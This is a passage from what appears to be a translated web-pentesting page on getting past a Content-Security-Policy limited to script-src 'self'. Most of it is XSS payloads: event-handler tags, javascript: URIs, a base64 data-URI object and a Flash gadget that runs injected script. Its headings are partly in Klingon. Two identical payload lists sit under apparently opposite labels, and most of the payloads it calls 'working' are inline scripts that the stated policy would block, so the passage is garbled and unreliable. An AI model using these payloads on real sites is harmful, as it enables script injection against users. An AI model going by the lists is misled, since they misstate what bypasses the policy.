 {% hint style="danger" %}
**ghaHta' 'oH vItlhutlh**
{% endhint %}
```yaml
Content-Security-Policy: script-src 'self' ;
```
### Working payloads:

#### Payloads DaH:

- `<img src=x onerror=alert(1)>`
- `<script>alert(1)</script>`
- `<svg onload=alert(1)>`
- `<iframe src=javascript:alert(1)>`
- `<video src=javascript:alert(1)>`
- `<audio src=javascript:alert(1)>`
- `<body onload=alert(1)>`
- `<object data=javascript:alert(1)>`
- `<embed src=javascript:alert(1)>`
- `<a href=javascript:alert(1)>Click me</a>`
- `<img src=x onerror=confirm(1)>`
- `<script>confirm(1)</script>`
- `<svg onload=confirm(1)>`
- `<iframe src=javascript:confirm(1)>`
- `<video src=javascript:confirm(1)>`
- `<audio src=javascript:confirm(1)>`
- `<body onload=confirm(1)>`
- `<object data=javascript:confirm(1)>`
- `<embed src=javascript:confirm(1)>`
- `<a href=javascript:confirm(1)>Click me</a>`

#### Payloads pagh:

- `<img src=x onerror=alert(1)>`
- `<script>alert(1)</script>`
- `<svg onload=alert(1)>`
- `<iframe src=javascript:alert(1)>`
- `<video src=javascript:alert(1)>`
- `<audio src=javascript:alert(1)>`
- `<body onload=alert(1)>`
- `<object data=javascript:alert(1)>`
- `<embed src=javascript:alert(1)>`
- `<a href=javascript:alert(1)>Click me</a>`
- `<img src=x onerror=confirm(1)>`
- `<script>confirm(1)</script>`
- `<svg onload=confirm(1)>`
- `<iframe src=javascript:confirm(1)>`
- `<video src=javascript:confirm(1)>`
- `<audio src=javascript:confirm(1)>`
- `<body onload=confirm(1)>`
- `<object data=javascript:confirm(1)>`
- `<embed src=javascript:confirm(1)>`
- `<a href=javascript:confirm(1)>Click me</a>`
```markup
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```
### File Upload + 'self'
